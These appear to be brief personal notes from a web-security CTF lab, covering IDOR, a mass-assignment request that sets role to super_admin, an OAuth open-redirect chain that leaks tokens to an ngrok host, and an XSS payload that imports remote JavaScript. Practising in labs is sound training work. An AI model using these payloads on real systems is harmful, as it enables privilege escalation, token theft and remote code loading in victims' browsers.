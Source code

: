 ___

# IDOR

```
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```

![[Pasted image 20241217171151.png]]

![[Pasted image 20241217171523.png]]

# Invite Systems

![[Pasted image 20241217172150.png]]

![[Pasted image 20241217172208.png]]

## 1

![[Pasted image 20241217172546.png]]

![[Pasted image 20241217172642.png]]

# Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=9435b4e9dd38cf2a8458fb3  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

![[Pasted image 20241217175156.png]]

# OAuth Flow using Open Redirect

```js
document.location.hash.substr(1)
```

```
https://auth.fluorite.ctfio.com/auth?client_id=1&redirect_url=https://fluorite.ctfio.com/redirect?url=https://e949-83-213-97-233.ngrok-free.app/test.html&response_type=token
```

```html
<html>
<head>
    <title>Hello World :-)</title>
</head>
<body>

Hello World :-)
<script>
    window.location = 'x/' + document.location.hash.substr(1);
</script>

</body>
</html>
```

![[Pasted image 20241217180517.png]]

# XSS

```html
"><img/src=x onerror=import("https://664a-83-213-97-233.ngrok-free.app/1.js")>
```

```js
alert(1);//
```